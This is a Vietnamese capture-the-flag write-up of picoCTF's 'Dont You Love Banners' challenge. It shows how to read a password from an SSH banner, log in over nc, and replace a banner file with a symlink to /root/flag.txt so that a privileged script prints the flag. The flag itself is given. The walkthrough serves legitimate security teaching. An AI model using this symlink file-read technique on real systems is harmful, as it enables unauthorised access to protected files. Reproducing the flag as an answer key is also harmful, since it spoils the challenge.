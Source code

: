 ```yaml
---
author: atuanlab
date: 10-04-2024
email: ng.atuanlab.yt@gmail.com
---
```


# [2024] [PICOCTF] [300-POINTS] DONT YOU LOVE BANNERS

## 1. THÔNG TIN CHUNG 
### Tác giả và mô tả chung 
- Tác giả: Loic Shema / syreal
- Mô tả chung 
    - Can you abuse the banner?
    - Additional details will be available after launching your challenge instance.

### Gợi ý 
- Do you know about symlinks?
- Maybe some small password cracking or guessing



## 2. TÓM TẮT QUÁ TRÌNH THỰC HIỆN 
- Có tới 2 Server để khai thác ấy
- Truy cập SERVER 01 bằng `telnet` (thu được Pass) và truy cập SERVER 02 bằng `nc`
- Nhập Pass và trả lời câu hỏi
    - Câu 01 là `DEFCON`
    - Câu 02 là `JOHN DRAPER`
- Tạo Symbolink cua File "flag.txt" bằng: `ln -s /root/flag.txt /home/plaer/banner`
- Truy cập lại SERVER 02 và thu được nội dung của cờ


## 3. CHI TIẾT QUÁ TRÌNH THỰC HIỆN 

### Khai thác thông tin tại SERVER 01 

Sử dụng telnet để truy cập SERVER 01 bằng lệnh: `telnet tethys.picoctf.net 51968`

```
┌──(kali㉿kali)-[~/Desktop/New Folder]
└─$ telnet tethys.picoctf.net 51968
Trying 3.140.72.182...
Connected to tethys.picoctf.net.
Escape character is '^]'.
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
^C
Connection closed by foreign host.
```

Thu được Password là: `My_Passw@rd_@1234`


### Truy cập SERVER 02 

Truy cập SERVER 02 bằng `nc`, một dạng như banner hiện ra và nhập Password thu được từ SERVER 01 để tiếp tục quá trình 

Dùng `nc` để kết nối với SERVER 02

```
                                                        
┌──(kali㉿kali)-[~/Desktop/New Folder]
└─$ nc tethys.picoctf.net 55551
*************************************
**************WELCOME****************
*************************************

what is the password? 
^C
```

Nhập Password là `My_Passw@rd_@1234` và tra lời câu hỏi 
- Câu hỏi 01 là `DEFCOBN`
- Câu hỏi 02 là `JOHN DRAPER`

```
┌──(kali㉿kali)-[~/Desktop/New Folder]
└─$ nc tethys.picoctf.net 55551
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
JOHN DRAPER
player@challenge:~$ 

player@challenge:~$ ls 
ls 
banner  text
```

Kết thúc là có thể truy cập được Server.

### Tạo Symbolic Link của file banner 

Dạo một vòng thì tại `/root` có tập tin `flag.txt`, chắc chắn đây là nội dung của cờ. Vấn đề là không thể mở do quyền

```
player@challenge:/root$ cat flag.txt
cat flag.txt
cat: flag.txt: Permission denied
player@challenge:/root$ 

```

Đọc thử nội dung của tập tin `script.py` thì đây chính là tập tin tạo nên quá trình đăng nhập đầu tiên khi truy cập vào SERVER 02

```
player@challenge:/root$ cat script.py
cat script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt

```

Một điểm chú ý là đoạn code dưới đây. Cơ bản là nó sẽ hiển thị các nội dung của File `banner` và tiếp tục chương trình.
```
try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
```

Như vậy thì ý tưởng của mình lúc này là tạo một `banner` mới là một symbolink của file `flag.txt`. Kết quả là khi chạy `script.py` cũng sẽ hiển thị nội dung của `flag.txt`

Dầu tiên thì chuyển tạm thời file banner cũ thành banner.bk bằng: `cp banner banner.bk`

```
player@challenge:~$ cp banner banner.bk
cp banner banner.bk
player@challenge:~$ ls
ls
banner  banner.bk  text
```

Xóa file `banner` cũ bằng lệnh: `rm banner`

```
player@challenge:~$ rm banner
rm banner
player@challenge:~$ ls
ls
banner.bk  text
player@challenge:~$ 
```

Tạo symbolink của `banner` từ `flag.txt` bằng lệnh: `ln -s /root/flag.txt /home/player/banner`

```
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
player@challenge:~$ ls
ls
banner  banner.bk  text
player@challenge:~$ 
```

Thoát ra và truy cập lại bằng `nc`. Lúc này, thay vì hiển thị Banner thì sẽ hiển thị nội dung của cờ 

```
┌──(kali㉿kali)-[~/Desktop/New Folder]
└─$ nc tethys.picoctf.net 55551
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_68ca8b23}

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
^C
```

## 4. THU THẬP NỘI DUNG CỦA CỜ 
Nội dung của cờ: `picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_68ca8b23}`



## 5. TÀI LIỆU THAM KHẢO
- https://www.freecodecamp.org/news/linux-ln-how-to-create-a-symbolic-link-in-linux-example-bash-command/